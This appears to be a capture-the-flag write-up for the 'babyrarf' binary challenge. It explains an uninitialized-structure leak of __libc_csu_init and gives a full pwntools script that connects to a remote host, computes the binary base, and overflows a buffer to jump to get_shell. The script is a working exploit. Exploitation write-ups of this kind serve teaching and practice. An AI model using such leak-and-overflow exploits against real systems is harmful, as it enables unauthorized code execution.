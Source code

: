Uninitialized structures are very useful to obtain leaks because their content is depending of the ancient stackframes which have stored local variables and especially useful pointers.
And when we try to leak these datas, we can see that a.id displays the address of ``__lib_csu_init``.
So we just need to leak the address of ``__lib_csu_init`` to compute the base address of the binary and so the address of ``get_shell``.

```python

from pwn import *

#p = process("babyrarf")

r = remote('35.204.144.114', 1337)
e = ELF('babyrarf')

set_ = False
base = 0
csu_leak = 0

def padd(d):
    return d + '\00'*(8-len(d))

print(r.recvuntil("What is your name?\n\n"))
r.sendline("nasm")
print(r.recvuntil("4. A cr0wn\n\n"))
r.sendline("1")

while True:
    a = r.recvuntil("4. A cr0wn\n\n", timeout=1)

    if not a:
        break
    print(a)
    
    if not set_:
        r.sendline("4")
    else:
        r.sendline("1")

    b = r.recvuntil("You choose attack ")

    if "l0zers don't get cr0wns" in b:
        leak_csu = int(padd(r.recvline().replace("\n", "")))
        print("leak_csu={}".format(hex(int(leak_csu))))
        base = leak_csu - e.symbols['__libc_csu_init']

        print("base: {}".format(hex(base)))

        set_ = True

print(r.recvuntil("Congratulations! You may now declare yourself the winner:\n\n"))

#gdb.attach(p.pid)
r.sendline("A"*40 + p64(e.symbols['get_shell'] + base))
r.interactive()

```
We can compute compute the value of rand to avoid bruteforce, but I've choosen to do not. So while it does not print ``l0zers don't get cr0wns``, I'm sending 4 for cr0wn and when it is teh case I get my leak of the csu and I compute the base address.
When It's done I'm sending 1 because it sounds more speed and I wait to win.
And when I won I can trigger the buffer overflow and jmp on ``get_shell``.
